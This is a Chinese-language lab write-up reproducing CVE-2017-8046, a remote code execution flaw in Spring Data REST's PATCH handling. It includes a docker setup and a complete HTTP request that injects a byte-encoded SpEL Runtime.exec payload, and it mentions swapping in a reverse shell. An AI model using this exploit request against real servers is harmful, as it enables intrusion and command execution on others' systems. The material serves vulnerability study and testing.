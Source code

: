 # Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）

Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现[RFC6902](https://tools.ietf.org/html/rfc6902)），path的值被传入`setValue`，导致执行了SpEL表达式，触发远程命令执行漏洞。

参考链接：

- http://xxlegend.com/2017/09/29/Spring%20Data%20Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/
- https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞%28CVE-2017-8046%29_分析与复现.html

## 环境搭建

执行如下命令启动一个基于Spring Data REST 2.6.6的Web应用：

```
docker compose up -d
```

等待环境启动完成，然后访问`http://your-ip:8080/`即可看到json格式的返回值，说明这是一个Restful风格的API服务器。

## 漏洞复现

访问`http://your-ip:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

```

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`。然后进入容器`docker compose exec spring bash`看看：

![](1.png)

可见，success成功创建。

将bytecode改成反弹shell的命令（注意：[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)），成功弹回：

![](2.png)
